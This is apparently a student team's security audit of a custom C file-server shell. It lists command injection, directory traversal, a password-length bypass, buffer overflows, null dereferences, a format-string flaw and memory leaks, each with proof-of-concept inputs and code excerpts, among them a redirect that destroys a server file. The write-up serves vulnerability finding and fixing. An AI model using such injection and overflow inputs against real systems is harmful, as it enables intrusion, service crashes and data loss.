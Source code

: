 ## Team5

### Command Injection

* Parameters for echo are not filtered. Hence we can run arbitrary commands.

```
$ echo hello `date`
hello Wed Mar 14 20:18:11 EDT 2018

$ echo hello $(date)
hello Wed Mar 14 20:19:50 EDT 2018

$ echo hello | date
Wed Mar 14 20:20:22 EDT 2018

$ echo hello & date
Wed Mar 14 20:20:46 EDT 2018

$ echo hello || date
Wed Mar 14 20:22:13 EDT 2018

```

* Parameters for ping are not filtered. We can use this to redirect output to any file the attacker wants.
```
$ ping google.com
PING google.com (172.217.9.78) 56(84) bytes of data.
64 bytes from ord38s09-in-f14.1e100.net (172.217.9.78): icmp_seq=1 ttl=53 time=7.00 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 7.001/7.001/7.001/0.000 ms

$ ping google.com > ../fileToModify   # Ex: > server => server file gone.

$
```
### Directory traversal

* Absolute paths are not handled.
```
$ cd /

$ ls
total 96
drwxr-xr-x   2 root root  12288 Mar 13 05:09 bin
drwxr-xr-x   4 root root   4096 Mar  6 05:09 boot
drwxr-xr-x  21 root root   5380 Oct 25 16:16 dev
drwxr-xr-x 136 root root  12288 Mar 13 05:09 etc
drwxr-xr-x   2 root root   4096 Apr 12  2016 home
...
```

### Null pointer dereference 

* If command returns NULL, find_command will try to referenece a NULL pointer
```C
command = parse_command(buf, read_size);
alias = find_command(command->cmd);
```
When command length is too long
```
$ AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA

$ 

$ 
mc08 73 $
```
When parameters are too long
```
$ login AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

$ 

$ 
mc08 74 $
```
* Server thread crashed when user sends cd command before logging in.

```C
else if(!strcmp(command->cmd, "cd")){
  if (current_user==NULL){
    if(current_user->isLoggedIn==false){ // NULL->isLoggedIn? Crash!
    
    }
  }
```

### Password Verification

* The binary compare function does not verify if length of strings match. This can be used to bypass password check with wrong password. Ex: Actual password = 1, given password = 123, it will still authorize

```
$ login n
username verified

$ pass 123
Login authorized.

$ logout
Logged out sucessfully.

$ login n
username verified

$ pass 1
Login authorized.
```

### Buffer Oveflow

* File name has a limited char array size of 50, but this bound is not checked.

```
$ get AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAA

$ 

$ 
mc08 75 $ 
```
File name is sanitized using this function which will overflow
```C
int rpt_err(char *arg){
	char check[50];
	sscanf(arg, "%s", check);
```

* This also accurs with long filenames. DATASIZE >>> MAX_PARAMS_SIZE
```C
char err[MAX_PARAMS_SIZE];
snprintf(err, 23, "ERROR: No such file-> ");
snprintf(err + strlen(err), DATASIZE, command->params);
```

* Linux max path size = 4096 bytes. The buffer which will overflow: 
```C
#define BASE_SIZE 100
char base[BASE_SIZE];
char *current_pwd = base;
char tmp_dir[1024];
strcpy(current_pwd, tmp_dir);
```
```
$ mkdir AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

$ cd AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

$ 

$ 

$ 
mc08 105 $
```


### Memory Leak

* Doesn't free anything.
```C
path = NULL;
command_tmp = NULL;
free(command_tmp);
free(path);

```
### Format string

* We have control over command->params
```C
snprintf(err + strlen(err), DATASIZE, command->params);
```
### Design Bugs

* Passing pointer to local variables
```C
struct arg arguments;
arguments.filepath = filepath;
arguments.port = dataport;
arguments.type = 2;
arguments.size = size;

pthread_t tid;
pthread_create(&tid, NULL, sock_create, &arguments);
sleep(1);
```

When the calling function goes out of scope, arguments will be invalid and can have undefined behaviour in the 
thread function. Better to use malloc.

* All users have the same home directory?
```
$ login Acidburn
username verified

$ pass CrashOverride
Login authorized.

$ ls
total 16
drwxrwxr-x 2 njaganna njaganna 4096 Mar 14 19:49 dir1
drwxrwxr-x 2 njaganna njaganna 4096 Mar 14 19:49 dir2
-rw-r----- 1 njaganna njaganna  286 Mar 14 23:26 inp
-rw-rw-r-- 1 njaganna njaganna    0 Mar 14 19:49 layer0-1
-rw-rw-r-- 1 njaganna njaganna    0 Mar 14 19:49 layer0-2
-rw-r----- 1 njaganna njaganna  286 Mar 14 23:29 mod

$ logout
Logged out sucessfully.

$ login n
username verified

$ pass 1
Login authorized.

$ ls
total 16
drwxrwxr-x 2 njaganna njaganna 4096 Mar 14 19:49 dir1
drwxrwxr-x 2 njaganna njaganna 4096 Mar 14 19:49 dir2
-rw-r----- 1 njaganna njaganna  286 Mar 14 23:26 inp
-rw-rw-r-- 1 njaganna njaganna    0 Mar 14 19:49 layer0-1
-rw-rw-r-- 1 njaganna njaganna    0 Mar 14 19:49 layer0-2
-rw-r----- 1 njaganna njaganna  286 Mar 14 23:29 mod
```
